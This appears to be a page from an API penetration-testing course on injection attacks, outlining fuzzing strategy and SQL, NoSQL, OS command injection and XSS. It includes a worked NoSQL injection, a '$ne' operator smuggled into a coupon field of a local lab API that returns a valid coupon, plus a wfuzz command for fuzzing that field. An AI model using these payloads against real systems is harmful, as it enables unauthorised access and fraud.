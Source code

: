 ```yaml
---
title: Injection attacks
author: amandaguglieri
draft: false
TableOfContents: true
---
```


# Injection Attacks

??? abstract "General index of the course"
    - [Setting up the environment](setting-up-kali.md)
    - [Api Reconnaissance](api-reconnaissance.md).
    - [Endpoint Analysis](endpoint-analysis.md).
    - [Scanning APIS](scanning-apis.md).
    - [API Authorization Attacks](api-authentication-attacks.md).
    - [Exploiting API Authorization](exploiting-api-authorization.md).
	- [Testing for Improper Assets Management](improper-assets-management.md).
    - [Mass Assignment](mass-assignment.md).
    - [Server side Request Forgery](server-side-request-forgery-ssrf.md).
    - [Injection Attacks](injection-attacks.md). 
    - [Evasion and Combining techniques](evasion-combining-techniques.md).
    - [Setting up the labs + Writeups](other-labs.md)

The art of fuzzing is knowing which payload to send in the right request with the right tool.

- Right payload can be narrow with reconnaissance.
- Right requests are those that include user input (+ headers + url paths)
- Right tool depends on strategy in fuzzing.

Yes, when fuzzing we need **a strategy**.

**1**. Identify endpoints (those where client input can interact with a database).

**2**. Fuzzing and analyzing responses.

**3**. Analyze responses:

	- Verbose error message
	- Response code
	- Time in response.

**4**. Identify technolofy, version, services behind, security controls.



## SQL injections

[More aboyut SQL injectios](../sql-injection.md). | [How to perform a manual attack in SQL](../sqli-manual-attack.md) |  [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/SQL-injection.md) |  [Tools: SQLmap](../sqlmap.md)


## NOSQL injections

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/nosql-injection.md). 

API commonly use NOSQL databases due to the fact that they scale well.  These databases have unique structures, modes of querying... Requests will be alike but payloads may vary. 


## Operating System Command Injection

[Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/operating-system-command-injection.md)

Some common operatiing system commands that are used in Injection attacks: 

- ipconfig
- dir
- ver
- whoami
- ifconfig
- ls
- pwd
- whoami

Target:

- URL query string
- Requests parameters
- headers
- requests that throw verbose error messages 

Techniques:

- Pairing multiple commands in a single line.


## XSS  Cross-Site Scripting

[More about Cross-Site Scripting](../cross-site-scripting-xss.md) | [Simple payloads](https://raw.githubusercontent.com/amandaguglieri/dictionaries/main/cross-site-scripting-xss.md) 



## Using wfuff

Having this request:

```
POST /community/api/v2/coupon/validate-coupon HTTP/1.1
host: localhost:8888
accept: */*
origin: http://localhost:8888
referer: http://localhost:8888/shop
Connection: close
user-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
content-type: application/json
Content-Length: 29
sec-fetch-dest: empty
sec-fetch-mode: cors
sec-fetch-site: same-origin
Accept-Encoding: gzip, deflate
accept-language: en-US,en;q=0.5
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg
Cache-Control: no-cache
Postman-Token: 5eb2f69b-6f89-460b-a49f-96c12edc9906

{"coupon_code":{"$ne":"-1"} }
```


And this response:

```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Mon, 06 Feb 2023 16:05:31 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{"coupon_code":"TRAC075","amount":"75","CreatedAt":"2022-11-11T19:22:26.134Z"}
```

We can use wfuzz like this:

```bash
wfuzz -z file,/usr/share/wordlists/nosql.txt -H "Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJzdWIiOiJoYXBpaGFja2VyNTU1NUBoYXBpaGFjaGVyLmNvbSIsImlhdCI6MTY3NTY5NjY3NiwiZXhwIjoxNjc1NzgzMDc2fQ.2_B9Rh_kERjiz4J4c4kIRjktNJ3s4jXOPRCJrLlOJrXV5cC-SgYDF3BxcBDzDJTqZTNtS26-fnprUr9bdenAeg" -H "Content-Type: application/json" -d "{\"coupon_code\":FUZZ}" --sc 200 -p localhost:8080 http://localhost:8888/community/api/v2/coupon/validate-coupon
# -p localhost:8080 Redirect traffic to BurpSuite
# --sc 200 Show code response 200
```


